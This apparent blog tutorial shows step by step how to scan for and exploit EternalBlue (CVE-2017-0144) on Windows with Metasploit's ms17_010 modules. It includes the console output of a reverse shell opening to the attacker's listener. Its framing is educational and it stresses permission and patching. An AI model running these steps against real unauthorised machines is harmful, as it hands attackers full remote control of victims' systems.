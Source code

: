 ```yaml
---
title: "How to Utilize CVE-2017-0144 to Exploit Vulnerable Windows Machines (Scan and Exploit within RCE)"
date: 2018-05-19T21:57:25+0800
tags: ["Ethical Hacking", "Metasploit", "Penetration Testing", "Windows", "Windows Exploit", "Windows Vulnerability", "RCE", "Remote Code Execution", "CVE-2017-0144", "EternalBlue", "SMBv1", "WannaCry"]
lastmod: 2025-0303T00:18:34+0800
---
```


## Introduction

In this article, I will guide you through the process of exploiting a Windows machine using the EternalBlue exploit (CVE-2017-0144) within the Metasploit framework. This exploit allows an attacker to gain remote code execution (RCE) on a vulnerable Windows machine.

### CVE-2017-0144

CVE-2017-0144 is a critical vulnerability in the Windows operating system that enables an attacker to execute arbitrary code on a remote system. This vulnerability was notably exploited by the WannaCry ransomware in 2017, causing widespread damage to organizations worldwide. It affects the SMBv1 protocol in Windows, allowing an attacker to send a specially crafted packet to a vulnerable system and execute arbitrary code.

Although this vulnerability is now considered old, I still remember the significant impact it had at the time. Today, let's explore how we can exploit this vulnerability using Metasploit.

## Disclaimer

This article is for educational purposes only. If you discover a vulnerable system, please report it to the system owner or administrator. Do not use this information for malicious purposes.

## Prerequisites

Before we begin, you need to have the following:

- A vulnerable Windows machine (Windows 7, Windows 8, Windows 10, Windows Server 2008, Windows Server 2012, Windows Server 2016)
- Kali Linux or any other GNU/Linux distribution with Metasploit installed

We assume that you have a strong understanding of ethical hacking and penetration testing concepts.

### Scanning for Vulnerable Machines

Metasploit provides a module to scan for vulnerable machines using the `smb_ms17_010` module. To use this module, follow these steps:

```bash
msfconsole
```

This command will open the Metasploit console. Once you are in the console, use the following command to load the `smb_ms17_010` module:

```bash
use auxiliary/scanner/smb/smb_ms17_010
```

Next, set the `RHOSTS` parameter to the IP range you want to scan. For example, to scan the IP address `192.168.0.113`, use the following command:

```bash
set RHOSTS 192.168.0.113
```

Now, initiate the scan by running the following command:

```bash
exploit
```

If the target machine is vulnerable, you will see the output: `Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)`.

### Exploiting the Vulnerability

After identifying a vulnerable machine, you can exploit the vulnerability using the `exploit/windows/smb/ms17_010_eternalblue` module. To use this module, follow these steps:

```bash
use exploit/windows/smb/ms17_010_eternalblue
```

Next, set the `RHOST` parameter to the IP address of the vulnerable machine. For example, to exploit the IP address `192.168.0.113`, use the following command:

```bash
set RHOST 192.168.0.113
```

Now, exploit the vulnerability by running the following command:

```bash
exploit
```

You should receive a command shell from the Windows machine. You can now execute any command on the target machine, gaining full control over it using CVE-2017-0144.

```
[*] Started reverse TCP handler on 192.168.0.106:4444
[*] 192.168.0.113:445 - Connection to target for exploitation.
[+] 192.168.0.113:445 - Connection established for exploitation.
[+] 192.168.0.113:445 - Target OS selected valid for OS indicated by SMB reply
[*] 192.168.0.113:445 - CORE raw buffer dump (38 bytes)
[*] 192.168.0.113:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 55 6c 74 69 6d 61 Windows 7 Ultima
[*] 192.168.0.113:445 - 0x00000010  74 65 20 36 2e 31 20 53 65 72 76 69 63 65 20 50 te 6.1 Service P
[*] 192.168.0.113:445 - 0x00000020  61 63 6b 20 31 20 78 36 34 20 28 36 34 2d 62 69 ack 1 x64 (64-bi
[*] 192.168.0.113:445 - 0x00000030  74 29 00 t).
[*] 192.168.0.113:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 192.168.0.113:445 - Trying exploit with 12 Groom Allocations.
[*] 192.168.0.113:445 - Sending all but last fragment of exploit packet
[*] 192.168.0.113:445 - Starting non-paged pool grooming
[*] 192.168.0.113:445 - Sending SMBv2 buffers
[*] 192.168.0.113:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 192.168.0.113:445 - Sending final SMBv2 buffers.
[*] 192.168.0.113:445 - Sending last fragment of exploit packet!
[*] 192.168.0.113:445 - Receiving response from exploit packet
[*] 192.168.0.113:445 - ETERNALBLUE overwrite completed...
[*] 192.168.0.113:445 - Sending egg to corrupted connection.
[*] 192.168.0.113:445 - Triggering free of corrupted buffer.
[*] Command shell session 1 opened (192.168.0.106:4444 -> 192.168.0.113:49187) at 2018-05-19 12:56:02 -0400
[*] 192.168.0.113:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[*] 192.168.0.113:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[*] 192.168.0.113:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation. All rights reserved.

C:\Windows\system32> cd ..
cd ..

C:\Windows> cd ..
cd ..

C:\> mkdir Hacked
mkdir Hacked
```

You now have full control over this exploit. You can perform any actions you desire on this machine.

## Conclusion

Exploiting CVE-2017-0144 using the Metasploit framework demonstrates the importance of keeping systems updated and patched against known vulnerabilities. While this article serves as a guide for educational purposes, it is crucial to remember the ethical implications of such actions. Always ensure that you have permission to test and exploit systems, and report any vulnerabilities you discover to the appropriate authorities.

## References

- Computer Skill. (2018, May 20). *Kali Linux - Tutorial #2 Using EternalBlue Hack Windows7 By IPV4* [Video]. YouTube. https://www.youtube.com/watch?v=mA1_o68khmc
- Computer Skill. (2018, May 20). *Kali Linux - Tutorial #1 Using EternalBlue Scanner* [Video]. YouTube. https://www.youtube.com/watch?v=WucGHIB7cJI
